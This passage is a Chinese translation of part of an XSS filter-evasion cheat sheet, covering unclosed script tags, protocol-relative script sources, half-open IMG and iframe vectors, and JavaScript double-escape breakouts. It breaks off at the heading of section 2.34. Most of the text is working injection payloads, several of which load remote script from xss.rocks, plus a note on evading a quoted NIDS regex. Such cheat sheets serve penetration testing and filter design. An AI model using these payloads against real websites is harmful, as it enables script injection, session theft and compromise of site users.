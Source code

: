 


### 2.29.    未闭合的script标签

在Firefox和Netscape 8.1的Gecko渲染引擎下你不是必须构造类似“></SCRIPT>”的跨站脚本攻击向量。Firefox假定闭合HTML标签是安全的并且会为你添加闭合标记。多么体贴！不像不影响Firefox的下一个问题，这不需要在后面有额外的HTML标签。如果需要可以添加引号，但通常是没有必要的，需要注意的是，我并不知道这样注入后HTML会什么样子结束:


<SCRIPT SRC=<http://xss.rocks/xss.js?>< B >




### 2.30.    script标签中的协议解析

这个特定的变体是由Łukasz Pilorz提交的并且基于Ozh提供的协议解析绕过。这个跨站脚本示例在IE和Netscape的IE渲染模式下有效，如果添加了</SCRIPT>标记在Opera中也可以。这在输入空间有限的情况下是非常有用的，你所使用的域名越短越好。”.j”是可用的，在SCRIPT标签中不需要考虑编码类型因为浏览器会自动识别。


<SCRIPT SRC=//xss.rocks/.j>




### 2.31.    只含左尖括号的HTML/JavaScript XSS向量

IE渲染引擎不像Firefox，不会向页面中添加额外数据。但它允许在IMG标签中直接使用javascript。这对构造攻击向量是很有用的，因为不需要闭合尖括号。这使得有任何HTML标签都可以进行跨站脚本攻击向量注入。甚至可以不使用”>”闭合标签。注意：这会让HTML页面变得混乱，具体程度取决于下面的HTML标签。这可以绕过以下NIDS正则:/((\%3D)|(=))[^\n]*((\%3C)|<)[^\n]+((\%3E)|>)/因为不需要”>”闭合。另外在实际对抗XSS过滤器的时候，使用一个半开放的<IFRAME标签替代<IMG标签也是非常有效的。


<IMG SRC=”javascript:alert(‘XSS’)”




### 2.32.    多个左尖括号

使用一个左尖括号替代右尖括号作为标签结尾的攻击向量会在不同浏览器的Gecko渲染引擎下有不同表现。没有左尖括号时，在Firefox中生效，而在Netscape中无效。


<iframe src=<http://xss.rocks/scriptlet.html> <




### 2.33.    JavaScript双重转义

当应用将一些用户输入输出到例如：<SCRIPT>var a=”$ENV{QUERY_STRING}”;</SCRIPT>的JavaScript中时，你想注入你的JavaScript脚本，你可以通过转义转义字符来规避服务器端转义引号。注入后会得到<SCRIPT>vara=”\\”;alert(‘XSS’);//”;</SCRIPT>，这时双引号不会被转义并且可以触发跨站脚本攻击向量。XSS定位器就用了这种方法:


\”;alert(‘XSS’);//




另一种情况是，如果内嵌数据进行了正确的JSON或JavaScript转义，但没有HTML编码，那可以结束原有脚本块并开始你自己的：


</script><script>alert(‘XSS’);</script>




### 2.34.    闭合title标签
